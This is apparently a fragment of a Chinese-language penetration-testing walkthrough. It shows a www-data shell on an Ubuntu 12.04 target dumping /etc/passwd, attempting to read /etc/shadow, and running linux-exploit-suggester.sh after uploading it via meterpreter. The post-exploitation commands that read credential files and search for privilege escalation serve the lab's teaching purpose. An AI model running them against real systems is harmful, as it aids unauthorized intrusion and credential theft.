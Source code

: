 ```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
phos:x:1000:1000:phos,,,:/home/phos:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
www-data@ubuntu:/opt/exploits$ cat /etc/shadow
cat /etc/shadow
cat: /etc/shadow: Permission denied
```

利用meterpreter将linux-exploit-suggester.sh上传到目标的/tmp目录。

```
www-data@ubuntu:/tmp$ ls -al
ls -al
total 112
drwxrwxrwt  5 root     root      4096 Oct 27 20:23 .
drwxr-xr-x 23 root     root      4096 Oct 27 18:07 ..
drwxrwxrwt  2 root     root      4096 Oct 27 19:13 VMwareDnD
-rw-rw-r--  1 www-data www-data 90917 Oct 27 20:23 linux-exploit-suggester.sh
drwx------  2 root     root      4096 Oct 27 19:13 vmware-root
drwx------  2 root     root      4096 Oct 27 19:13 vmware-root_1389-3980363888
www-data@ubuntu:/tmp$ chmod +x linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
```

```
www-data@ubuntu:/tmp$ ./linux-exploit-suggester.sh
./linux-exploit-suggester.sh

Available information:

Kernel version: 3.2.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 12.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

81 kernel space exploits
49 user space exploits

Possible Exploits:

cat: write error: Broken pipe
```